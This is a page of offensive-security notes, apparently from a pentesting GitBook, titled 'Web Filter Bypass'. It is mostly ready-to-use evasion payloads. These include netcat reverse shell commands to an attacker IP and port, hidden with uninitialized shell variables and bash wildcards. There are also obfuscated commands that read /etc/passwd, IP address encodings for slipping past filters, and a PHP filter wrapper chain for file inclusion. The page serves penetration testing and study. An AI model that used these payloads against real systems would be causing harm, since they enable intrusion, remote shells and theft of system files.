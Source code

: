 # Web Filter Bypass

## Payloads and Bypass Methods for Web Filtering

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}
swisskyrepo / PayloadsAllTheThings
{% endembed %}

{% embed url="https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/" %}
How To Exploit PHP Remotely To Bypass Filters & WAF Rules
{% endembed %}

### Use Uninitialized Shell Variables to Bypass Filters

{% embed url="https://www.secjuice.com/web-application-firewall-waf-evasion/" %}
Web Application Firewall (WAF) Evasion Techniques #3
{% endembed %}

Uninitialized shell variables can be used for bypassing web application firewalls (WAF).  Example: bypassing a filter to execute a reverse shell - `nc$u -e /bin$u/bash$u <ip> <port>`.  If this doesn't work try adding spaces before and after the variable (note the `+`'s, this example is also URL encoded): `nc+$u++-e+/bin$u/bash$u <ip> <port>` _(`$u` in this case is a random attacker-picked variable that would hopefully be uninitialized on the target)._

### Use Wildcards to Bypass Filters

{% embed url="https://medium.com/secjuice/waf-evasion-techniques-718026d693d8" %}
Web Application Firewall (WAF) Evasion Techniques
{% endembed %}

Bypass web filters by using bash wildcards:`/???/?s` `/?cmd=%2f???%2f??t%20%2f???%2fp??s??` will bypass...and execute every command that matches. such as `/bin/cat /etc/apt`, and `/bin/cat /etc/passwd`

netcat firewall bypass: `/???/n? -e /???/b??h 2130706433 1337` (`/???/?c.??????????? -e /???/b??h 2130706433 1337` for nc traditional)

```
Standard: /bin/nc 127.0.0.1 1337
Evasion:/???/n? 2130706433 1337
Used chars: / ? n [0-9]

Standard: /bin/cat /etc/passwd
Evasion: /???/??t /???/??ss??
Used chars: / ? t s
```

### Use String Concatenation to Bypass Filters

```
$ /bin/cat /etc/passwd
$ /bin/cat /e'tc'/pa'ss'wd
$ /bin/c'at' /e'tc'/pa'ss'wd
$ /b'i'n/c'a't /e't'c/p'a's's'w'd'
Can use \\ instead of ' as well
```

### Convert IP Address to Other Formats&#x20;

* [https://h.43z.one/ipconverter/](https://h.43z.one/ipconverter/)

It is still understood by most programs and languages when converted to other formats, such as decimal, and avoids `.` character in filtered HTTP requests: `127.0.0.1 = 2130706433`

```
http://127.0.0.1

#0 Concatenation
http://127.0.1
http://127.1

#Decimal
http://2130706433

#Hexidecimal
http://0x7f000001

#Dotted Hexidecimal
http://0x7f.0x0.0x0.0x1
http://0x7f.0x000001
http://0x7f.0x0.00x0001

#Others (need descriptions)
http://0177.00.00.01
http://000000177.0000000.000000000.0001
http://017700000001
http://%31%32%37%2e%30%2e%30%2e%31
http://127.0x0.000000000.0x1
http://①②⑦．⓪．⓪．①
```

Injecting IPs when `.` is disallowed: convert dotted-decimal format to decimal value - [`ip2dh`](https://github.com/4ndr34z/MyScripts/blob/master/ip2dh.py)

### LFI / RFI by Bypassing Filters Using Wrappers

From [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/73aa26ba6891981ec2254907b9bbd4afdc745e1d/File%20Inclusion/README.md#lfi--rfi-using-wrappers)   `php://filter/` has multiple ways to bypass PHP input filters ;These can be chained with `|` or `/` : zip, data, expect, input, phar; many more different wrappers to try!

```php
/zlib.deflate/read=string.rot13/convert.base64-encode/convert.iconv.utf-8.utf-16/resource=<resource to get>
```

##
